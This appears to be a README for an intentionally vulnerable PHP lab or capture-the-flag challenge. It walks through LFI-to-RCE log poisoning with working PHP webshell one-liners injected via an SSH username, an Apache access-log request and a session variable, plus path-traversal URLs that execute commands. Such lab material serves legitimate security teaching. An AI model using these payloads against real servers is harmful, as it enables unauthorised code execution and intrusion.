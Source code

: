 # Build Image
```
$ sudo docker build -t my-php-app .
```

# Run Container
```
$ sudo docker run -d --name my-running-app my-php-app
```

# Hack It!
There is many way to get flag but the main attack is "lfi to rce". We choose to go with stored way.

CheatSheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

## Stored RCE
The consept is using to any of log files for store our php code. Some of these are; http access log (for apache: `/var/log/apache2/access.log`, for nginx `/var/log/nginx/access.log`), ssh auth log (`/var/log/auth.log`) ...

### Using SSH
```
$ ssh '<?=shell_exec($_GET["cmd"])?>@example.com'
```
When we try to connect our log saved under `/var/log/auth.log`.

```
........
May  1 16:17:43 owl sshd[9024]: Accepted publickey for root from 192.168.0.101 port xxxx ssh2
May  1 20:17:43 owl sshd[9024]: ... <?=shell_exec($_GET["cmd"])?> from 121.2xx.xx.xxx port xxxx ssh2
........
```

Now we can access our shell.
`/index.php?page=../../../../../var/log/auth.log&cmd=ls`

### Using Access Log
Send GET request including our php code.
```
GET /test.php <?=system($_GET["cmd"])?> 
```
Now our access log saved into `/var/log/apache2/access.log` (if server uses apache with default configurations).
```
...
172.17.0.1 - - [28/Mar/2020:11:31:58 +0000] "GET /test.php <?=system($_GET["cmd"])?>" 400 0 "-" "-"
...
```
Now we can access our shell.
`/index.php?page=../../../../../var/log/apache2/access.log&cmd=ls`

### Bonus: Using PHP Sessions
Find anything stored in session, like username etc. And type your code and save it to session. Open developer tools and get your session id from cookie `PHPSESSID`. Your session stored in `/tmp/sess_YOUR-PHPSESSID`. Forexample if you enter your user name `test` and if your PHPSESSID value `aecfe47a0f5a42e1bc5941893d45b223` 
```
root@ba9f2ada7228:/# cat /tmp/sess_aecfe47a0f5a42e1bc5941893d45b223 
user|s:4:"test";
```

if you set your user name <?=shell_exec($_GET[cmd]);?>
```
root@ba9f2ada7228:/# cat /tmp/sess_aecfe47a0f5a42e1bc5941893d45b223 
user|s:28:"<?=shell_exec($_GET[cmd]);?>";
```
Now we can access our shell.
`/index.php?page=../../../../../tmp/sess_aecfe47a0f5a42e1bc5941893d45b223&cmd=ls`
